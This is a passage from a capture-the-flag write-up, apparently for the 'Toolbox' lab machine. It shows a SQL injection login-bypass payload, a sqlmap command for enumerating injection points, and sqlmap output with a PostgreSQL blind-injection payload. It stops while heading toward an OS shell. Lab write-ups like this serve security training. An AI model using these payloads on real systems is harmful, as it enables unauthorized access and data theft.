 So the above login page is vulnerable to SQL Injection. With a simple SQL Injection payload `admin' OR '1' = '1` and password can be anything,  I was able to load the dashboard.
![](ToolBox_Web3.png)

Couple of important information on `About` Page
![](ToolBox_Web4.png)

Since the login form is vulnerable to SQL Injection, I used sqlmap to get the reverse shell.

###### `Gaining Reverse Shell using sqlmap`
Okay so I know that there is a `--os-shell` flag of sqlmap which gets the reverse shell however, while solving this box I learned that you first have to enumerate Database, Tables and Columns before trying the `--os-shell` switch with the sqlmap command 

###### `Enumerating Injection Points`
```
# python sqlmap.py -r /home/ringbuffer/Downloads/Toolbox.htb/req --force-ssl --batch

<!-------- SNIPPED-------------!>

sqlmap identified the following injection point(s) with a total of 95 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
    Payload: username=admin' AND (SELECT (CASE WHEN (9490=9490) THEN NULL ELSE CAST((CHR(101)||CHR(76)||CHR(105)||CHR(67)) AS NUMERIC) END)) IS NULL AND 'qnWj'='qnWj&password=asdf

    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
```